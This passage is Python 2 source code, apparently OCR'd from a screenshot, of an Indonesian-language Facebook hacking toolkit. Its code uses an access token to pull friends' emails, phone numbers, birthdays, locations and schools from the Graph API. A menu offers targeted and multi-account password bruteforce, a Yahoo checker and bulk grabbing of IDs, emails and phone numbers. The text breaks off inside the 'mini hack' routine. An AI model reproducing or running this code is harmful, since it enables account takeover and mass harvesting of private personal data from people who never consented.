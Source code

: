 '\x1b[1;91m[\xe2\x9c\x96] \x1b[1;97m' + zedd + ' \x1b[1;91mTidak ada'                                 pilih()   def informasi():     os.system('clear')     try:         toket = open('login.txt', 'r').read()     except IOError:         print '\x1b[1;91m[!] Token tidak ditemukan'         os.system('rm -rf login.txt')         time.sleep(1)         login()      os.system('clear')     print logo     print 40 * '\x1b[1;97m\xe2\x95\x90'     id = raw_input('\x1b[1;91m[+] \x1b[1;92mMasukan ID\x1b[1;97m/\x1b[1;92mNama\x1b[1;91m : \x1b[1;97m')     jalan('\x1b[1;91m[\xe2\x9c\xba] \x1b[1;92mTunggu sebentar \x1b[1;97m...')     r = requests.get('https://graph.facebook.com/me/friends?access_token=' + toket)     cok = json.loads(r.text)     for p in cok['data']:         if id in p['name'] or id in p['id']:             r = requests.get('https://graph.facebook.com/' + p['id'] + '?access_token=' + toket)             z = json.loads(r.text)             print 40 * '\x1b[1;97m\xe2\x95\x90'             try:                 print '\x1b[1;91m[\xe2\x9e\xb9] \x1b[1;92mNama\x1b[1;97m          : ' + z['name']             except KeyError:                 print '\x1b[1;91m[?] \x1b[1;92mNama\x1b[1;97m          : \x1b[1;91mTidak ada'             else:                 try:                     print '\x1b[1;91m[\xe2\x9e\xb9] \x1b[1;92mID\x1b[1;97m            : ' + z['id']                 except KeyError:                     print '\x1b[1;91m[?] \x1b[1;92mID\x1b[1;97m            : \x1b[1;91mTidak ada'                 else:                     try:                         print '\x1b[1;91m[\xe2\x9e\xb9] \x1b[1;92mEmail\x1b[1;97m         : ' + z['email']                     except KeyError:                         print '\x1b[1;91m[?] \x1b[1;92mEmail\x1b[1;97m         : \x1b[1;91mTidak ada'                     else:                         try:                             print '\x1b[1;91m[\xe2\x9e\xb9] \x1b[1;92mNomor HP\x1b[1;97m      : ' + z['mobile_phone']                         except KeyError:                             print '\x1b[1;91m[?] \x1b[1;92mNomor HP\x1b[1;97m      : \x1b[1;91mTidak ada'                          try:                             print '\x1b[1;91m[\xe2\x9e\xb9] \x1b[1;92mLokasi\x1b[1;97m        : ' + z['location']['name']                         except KeyError:                             print '\x1b[1;91m[?] \x1b[1;92mLokasi\x1b[1;97m        : \x1b[1;91mTidak ada'                      try:                         print '\x1b[1;91m[\xe2\x9e\xb9] \x1b[1;92mTanggal Lahir\x1b[1;97m : ' + z['birthday']                     except KeyError:                         print '\x1b[1;91m[?] \x1b[1;92mTanggal Lahir\x1b[1;97m : \x1b[1;91mTidak ada'                  try:                     print '\x1b[1;91m[\xe2\x9e\xb9] \x1b[1;92mSekolah\x1b[1;97m       : '                     for q in z['education']:                         try:                             print '\x1b[1;91m                   ~ \x1b[1;97m' + q['school']['name']                         except KeyError:                             print '\x1b[1;91m                   ~ \x1b[1;91mTidak ada'                  except KeyError:                     pass              raw_input('\n\x1b[1;91m[ \x1b[1;97mKembali \x1b[1;91m]')             menu()     else:         print '\x1b[1;91m[\xe2\x9c\x96] Pengguna tidak ditemukan'         raw_input('\n\x1b[1;91m[ \x1b[1;97mKembali \x1b[1;91m]')         menu()   def menu_hack():     os.system('clear')     try:         toket = open('login.txt', 'r').read()     except IOError:         print '\x1b[1;91m[!] Token tidak ditemukan'         os.system('rm -rf login.txt')         time.sleep(1)         login()      os.system('clear')     print logo     print 40 * '\x1b[1;97m\xe2\x95\x90'     print '\x1b[1;37;40m1. Mini Hack Facebook(\x1b[1;92mTarget\x1b[1;97m)'     print '\x1b[1;37;40m2. Multi Bruteforce Facebook'     print '\x1b[1;37;40m3. Super Multi Bruteforce Facebook'     print '\x1b[1;37;40m4. BruteForce(\x1b[1;92mTarget\x1b[1;97m)'     print '\x1b[1;37;40m5. Yahoo Checker'     print '\x1b[1;37;40m6. Ambil id/email/hp'     print '\x1b[1;31;40m0. Kembali'     print     hack_pilih()   def hack_pilih():     hack = raw_input('\x1b[1;91m-\xe2\x96\xba\x1b[1;97m ')     if hack == '':         print '\x1b[1;91m[!] Jangan kosong'         hack_pilih()     else:         if hack == '1':             mini()         else:             if hack == '2':                 crack()                 hasil()             else:                 if hack == '3':                     super()                 else:                     if hack == '4':                         brute()                     else:                         if hack == '5':                             menu_yahoo()                         else:                             if hack == '6':                                 grab()                             else:                                 if hack == '0':                                     menu()                                 else:                                     print '\x1b[1;91m[\xe2\x9c\x96] \x1b[1;97m' + hack + ' \x1b[1;91mTidak ada'                                     hack_pilih()   def mini():     os.system('clear')     try:         toket = open('login.txt', 'r').read()     except IOError:         print '\x1b[1;91m[!] Token tidak ditemukan'         os.system('rm -rf login.txt')         time.sleep(1)         login()     else:         os.system('clear')         print logo         print 40 * '\x1b[1;97m\xe2\x95\x90'         print '\x1b[1;91m[ INFO ] Akun target harus berteman dengan akun anda dulu !'         try:             id = raw_input('\x1b[1;91m[+] \x1b[1;92mID Target \x1b[1;91m:\x1b[1;97m ')             jalan('\x1b[1;91m[\xe2\x9c\xba] \x1b[1;92mTunggu sebentar \x1b[1;97m...')             r = requests.get('https://graph.facebook.com/' + id + '?access_token=' + toket)             a = json.loads(r.text)             print '\x1b[1;91m[\xe2\x9e\xb9]